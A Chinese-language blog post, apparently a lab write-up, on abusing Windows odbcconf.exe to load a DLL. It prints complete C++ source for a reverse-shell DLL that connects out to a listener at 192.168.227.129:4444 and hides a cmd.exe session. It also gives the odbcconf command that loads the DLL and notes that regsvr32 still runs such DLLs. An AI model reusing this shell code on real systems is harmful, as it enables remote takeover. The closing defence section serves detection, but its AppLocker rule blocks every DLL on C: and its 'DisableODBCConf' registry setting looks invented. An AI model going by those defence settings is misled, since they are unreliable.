

今天要來展示一個被修補好的洞，  
而且是打了一整天才發現全部都被 patch 掉了所以沒成功，  
不過過程挺有趣的，還是想記錄一下

Odbcconf.exe 是用來設定 ODBC 驅動程式和資料來源的工具，  
但也因為它可以執行 DLL 檔案中的函數，我們可以利用這個特性來執行惡意程式碼

## ODBC 是什麼？

* * *

### ODBC 介紹

ODBC 全名是 Open Database Connectivity，從名字我們大概也可以看出來他跟資料庫相關，  
那其實我們可以把它當作是一個萬能鑰匙，  
今天如果有好幾個資料庫，像是 SQL Server, MYSQL, Oracle, Access，  
我們就可以用同樣的方式打開，在開發上帶來更多彈性

### ODBC 原理 & 架構

ODBC 是用一個中間層來達成資料庫的抽象化，主要包含四個核心元件：

*   **Application**：任何需要 access 資料庫的程式會去呼叫 ODBC API 的函式來對資料庫操作（e.g. 連線SQL 查詢）
*   **Driver Manager**: 中樞，通常是 OS 提供的（像 Windows 就是用 adbc32.dll），當程式呼叫 ODBC 函式的時候，就會去接收，轉發給對應的 Driver
*   **Driver**: 針對特定資料庫開發的 DLL，把呼叫的內容翻譯成該資料庫可以理解的 command 或 API，然後資料庫回傳的結果再轉換成程式可以理解的ODBC格式
*   **Data Source**: 使用者要 access 的資料庫位置連線需要的相關資訊（伺服器名稱資料庫名稱帳號密碼...）使用者要先用 ODBC Data Source Manager 設定一個 DSN(Data Source Name)，程式才可以透過這個 DSN 去指定要連線的目標

所以整體流程可以想像成是這樣：

```
App <--> ODBC API <--> Driver Manager <--> Driver <--> Data Source

```

### Odbcconf.exe 的常見用途

我們先直接執行一次 odbconf.exe，  
應該就會跳出一個使用說明：  


```cmd
# 安裝 ODBC 驅動
odbcconf.exe /a {INSTALLDRIVER "SQL Server|Driver=sqlsrv32.dll"}

# 設定系統 DSN
odbcconf.exe /a {CONFIGSYSDSN "SQL Server" "DSN=TestDB|Server=localhost"}

# 執行 response file
odbcconf.exe /f setup.rsp

```

odbcconf.exe 在安裝或設定 driver 的時候會匯出一個 DllRegisterServer 函式，  
所以可以載入跟執行指定的DLL檔案，  
如果我們可以寫一個惡意DLL，這就會是我們這次的主要攻擊點

## 攻擊流程

* * *

今天我們來一起實作看看，  
載入惡意 DLL 來執行 Reverse Shell

這次的攻擊基本上是參考這些網站內容：  
[https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)  
[https://gist.github.com/NickTyrer/6ef02ce3fd623483137b45f65017352b](https://gist.github.com/NickTyrer/6ef02ce3fd623483137b45f65017352b)  
[https://github.com/woanware/application-restriction-bypasses](https://github.com/woanware/application-restriction-bypasses)  
[https://www.hexacorn.com/blog/2020/08/23/odbcconf-lolbin-trifecta/](https://www.hexacorn.com/blog/2020/08/23/odbcconf-lolbin-trifecta/)

### Step 1: 自己寫一個惡意 DLL

`dllmain.cpp`:

```cpp
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")
#define DEFAULT_BUFLEN 1024

void ReverseShell() {
    const char* LHOST = "192.168.227.129";
    int LPORT = 4444;                   


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct sockaddr_in clientService;
    PROCESS_INFORMATION pi;
    STARTUPINFOA si;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        return;
    }

    ConnectSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (ConnectSocket == INVALID_SOCKET) {
        WSACleanup();
        return;
    }

    clientService.sin_family = AF_INET;
    clientService.sin_addr.s_addr = inet_addr(LHOST);
    clientService.sin_port = htons(LPORT);

    if (connect(ConnectSocket, (SOCKADDR*)&clientService, sizeof(clientService)) == SOCKET_ERROR) {
        closesocket(ConnectSocket);
        WSACleanup();
        return;
    }

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)ConnectSocket;

    ZeroMemory(&pi, sizeof(pi));
    CreateProcessA(
        "C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        TRUE,
        CREATE_NO_WINDOW,
        NULL,
        NULL,
        &si, 
        &pi
    );

    WaitForSingleObject(pi.hProcess, INFINITE);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(ConnectSocket);
    WSACleanup();
}

extern "C" __declspec(dllexport) BOOL WINAPI DllRegisterServer() {
    HANDLE thread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ReverseShell, NULL, 0, NULL);
    if (thread) {
        CloseHandle(thread);
    }
    return TRUE;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

這邊記得在 Visual Studio 編譯的時候要調整 Debug 改為 Release，  
然後選的是x64，  
然後我們拆開來看一下，

#### `Reverse Shell()`

```cpp
void ReverseShell() {
    const char* LHOST = "192.168.227.129";
    int LPORT = 4444;                   


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct sockaddr_in clientService;
    PROCESS_INFORMATION pi;
    STARTUPINFOA si;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        return;
    }

    ConnectSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (ConnectSocket == INVALID_SOCKET) {
        WSACleanup();
        return;
    }

    clientService.sin_family = AF_INET;
    clientService.sin_addr.s_addr = inet_addr(LHOST);
    clientService.sin_port = htons(LPORT);

    if (connect(ConnectSocket, (SOCKADDR*)&clientService, sizeof(clientService)) == SOCKET_ERROR) {
        closesocket(ConnectSocket);
        WSACleanup();
        return;
    }

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)ConnectSocket;

    ZeroMemory(&pi, sizeof(pi));
    CreateProcessA(
        "C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        TRUE,
        CREATE_NO_WINDOW,
        NULL,
        NULL,
        &si, 
        &pi
    );

    WaitForSingleObject(pi.hProcess, INFINITE);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    closesocket(ConnectSocket);
    WSACleanup();
}

```

*   `WSAStartup`, `Socket`: 初始化網路環境，建一個 Socket
*   `connect`: 會主動去連線到前面設定的 LHOST, LPORT
*   `si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)ConnectSocket;`: Reverse Shell 的精隨，告訴等一下要建立的 cmd.exe 說，標準輸入輸出錯誤輸出都不要用預設的，要用前面 ConnectSocket 連線到的，這樣我們就可以 nc 接收到，就可以開始對目標電腦操作了
*   CreateProcessA: 用來啟動 cmd.exe
*   CREATE\_NO\_WINDOW: 讓 cmd.exe 在背景執行，不會跳出視窗，進行隱蔽

#### DllRegisterServer():

```cpp
extern "C" __declspec(dllexport) BOOL WINAPI DllRegisterServer() {
    HANDLE thread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)ReverseShell, NULL, 0, NULL);
    if (thread) {
        CloseHandle(thread);
    }
    return TRUE;

```

*   `extern "C" __declspec(dllexport)`: 告訴 compiler 要把 DllRegisterServer 匯出，讓外面的程式可以呼叫他
*   `DllRegisterServer` 是一個標準函式，也是我們這次主要攻擊的點，但目前這部分已經被 Windows 修掉了，推估是會檢查路徑或簽章，但目前實測 regsvr32.exe 還是可以呼叫到自己寫的 dll，這些呼叫的過程就是在註冊 DLL 的 COM 元件
*   舊版本：在 odbcconf.exe 嘗試註冊的時候，就會執行然後呼叫 ReverseShell()，達到攻擊目的

#### DllMain():

```cpp
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

*   `DllMain` 是所有 Windows Dll 的標準進入點，只要有程式載入就會呼叫到他
*   因為這邊我們主要是希望程式執行到 DllRegisterServer，所以 DllMain 這邊就沒放什麼東西了，只是個簡單的模板

### Step 2: 傳送 DLL 並執行

在 cmd 上執行：

```powershell
C:\Windows\System32\odbcconf.exe /S /A {CONFIGDRIVER "SQL Server" "Driver=C:\Test\evil-dll.dll"}

```

驅動程式（接在 CONFIGDRIVER 後面的那串）也可以用其他的代替，  
原本有使用過 Microsoft Access Driver，  
但也發現測試的電腦上沒有這個 Driver，  
所以最後是使用大部分電腦上可能會有的 SQL Server 來當作跳板

### Step 3: 獲得 Shell

打開負責監聽的主機，應該就會發現 nc 到了 shell 可以用，  
但測試期間發現 Windows 11 已經修掉這個了，  
不過也發現 regsv32.exe 還是可以跑自訂 dll 的

## 偵測&防禦建議

* * *

### 關鍵偵測指標

*   `odbcconf.exe` + `/a {REGSVR` = 極度可疑
*   `odbcconf.exe` 執行非 ODBC 相關的 DLL
*   Response file 在 TempDownloads 等可疑位置
*   odbcconf.exe 產生非預期的子程序

### 防禦設定

```powershell
# AppLocker 規則 - 阻擋 odbcconf 執行非系統 DLL
$rule = New-AppLockerPolicy -RuleType Dll -User Everyone -Action Deny -Path "C:\*"

# 限制 odbcconf.exe 執行
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" `
    -Name "DisableODBCConf" -Value 1 -PropertyType DWord -Force

```

## 總結！

* * *

Odbcconf 危險因為：

*   **執行 DLL 函數** - 透過 REGSVR 動作
*   **系統信任** - 有 Microsoft 簽章
*   **Response File** - 可以批次執行多個動作
*   **繞過白名單** - 合法的系統管理工具